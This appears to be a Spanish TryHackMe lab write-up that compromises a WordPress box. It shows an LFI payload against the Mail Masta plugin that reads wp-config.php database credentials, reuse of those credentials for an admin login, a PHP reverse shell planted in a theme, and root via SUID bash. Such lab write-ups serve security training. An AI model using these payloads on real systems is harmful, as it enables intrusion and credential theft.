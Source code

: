 ```yaml
---
layout: writeup
category: TryHackMe
chall_description: This box's intention is to help you practice several ways in exploiting a system. There is few intended paths to exploit it and few unintended paths to get root. Try to discover and exploit them all. Do not just exploit it using intended paths, hack like a pro and enjoy the box !
points: 160
solves: 2
tags: tryhackme ejptv2
date: 2024-08-23
comments: false
---
```


# Enumeration and Scanning

Primero de todos hacemos un escaneo de los puertos y sus servicios

![image](https://github.com/user-attachments/assets/197fa6d1-b90b-40b4-9b3c-af2cd5b40bbc)

### Puerto 80 (HTTP Server)

Seguimos con la enumeración y comenzamos con el puerto 80:

![image](https://github.com/user-attachments/assets/fb30bc7f-580a-4488-bbce-93669d6c0a2c)

Parece la típica página por defecto de servidores Apache. Enumeramos los directorios del servidor web:

    [+] Url:                     http://10.10.33.133/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/local/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /wordpress            (Status: 301) [Size: 316] [--> http://10.10.33.133/wordpress/]
    /hackathons           (Status: 200) [Size: 197]
    

Hay un directorio wordpress. Vemos lo que tiene:

![image](https://github.com/user-attachments/assets/fc0ef621-48b0-4c4c-b0d3-65ebcfad41d1)

Parece una web hecha con Wordpress. Le lanzamos WPScan para saber plugins vulnerables, temas vulnerables y enumerar usuarios y conseguimos sacar un usuario:

    [+] elyana
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Rss Generator (Passive Detection)
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.29.33/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

Probamos bruteforce al login de wordpress y no obtuvimos nada. Volvemos a lanzar WPScan para ver si encontramos alguna vulnerabilidad de los plugins, y encontramos que de Mail Masta 1.0 encontramos 2 vulnerabilidades interesantes:

    [+] mail-masta
     | Location: http://10.10.168.165/wordpress/wp-content/plugins/mail-masta/
     | Latest Version: 1.0 (up to date)
     | Last Updated: 2014-09-19T07:52:00.000Z
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | [!] 2 vulnerabilities identified:
     |
     | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
     | [!] Title: Mail Masta 1.0 - Multiple SQL Injection

# Vulnerability assesment

### CVE-2016-10956

 > *The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation*

Esta vulnerabilidad ataca al pathing "wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=*file*" a través del parámetro pl.
Probamos a acceder a /etc/passwd:

![image](https://github.com/user-attachments/assets/19155f1b-5d52-43df-aeae-8c5cb1fa1d3a)

Le pasamos el siguiente payload:

    http://ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

Para obtener el contenido de wp-config en base64. Procedemos a su decodificación:

![image](https://github.com/user-attachments/assets/586fe8d4-717d-44b3-b87b-1ff6bae196d6)

Y vemos las credenciales de acceso a la base de datos:

    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'elyana' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'H@ckme@123' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

Probamos a utilizar esas credenciales para acceder al panel de Wordpress:

![image](https://github.com/user-attachments/assets/c44e1a6d-853c-4cb6-9f71-cf6f94d68de6)

Con este acceso, ya podemos crear una PHP Reverse Shell en uno de los temas y con ello acceder al sistema:

![image](https://github.com/user-attachments/assets/262c4cb3-942d-4fb8-94ee-dad037825391)

Activamos el listener en nc:

![image](https://github.com/user-attachments/assets/b2e7f312-e483-4180-8d53-173599d07d8c)

Y accedemos al .php en el que hemos pegado el código dentro de la web... ¡obtenemos acceso al sistema!

![image](https://github.com/user-attachments/assets/20e5ce8b-3a58-4752-89c6-0897a5fa7cfb)

Pero para acceder a la flag de usuario, necesitamos cambiar de usuario, ya que somos www-data y necesitamos ser mínimo el usuario elyana.
Vamos a ver si podemos escalar privilegios directamente y desde root acceder a las dos flags.

# Privilege escalation

Comenzamos haciendo la enumeración básica de ficheros con permisos SUID:

    bash-4.4$ find / -perm /4000 2>/dev/null
    find / -perm /4000 2>/dev/null
    /bin/mount
    /bin/ping
    /bin/fusermount
    /bin/su
    /bin/bash
    /bin/chmod
    /bin/umount
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/snapd/snap-confine
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/bin/newuidmap
    /usr/bin/pkexec
    /usr/bin/lxc
    /usr/bin/traceroute6.iputils
    /usr/bin/newgidmap
    /usr/bin/chfn
    /usr/bin/chsh
    /usr/bin/newgrp
    /usr/bin/sudo
    /usr/bin/socat
    /usr/bin/gpasswd
    /usr/bin/at
    /usr/bin/passwd

Vemos un fichero interesante con el cual la escalada de privilegios es simple. Ese fichero es /bin/bash. Lo ejecutamos tal cual, y con eso ya somos root:

    bash-4.4$ /bin/bash -p
    /bin/bash -p
    bash-4.4# whoami
    whoami
    root
    bash-4.4#

Y ya desde root podemos acceder a la flag de user.txt en /home/elyana/user.txt y la de root en /root/root.txt
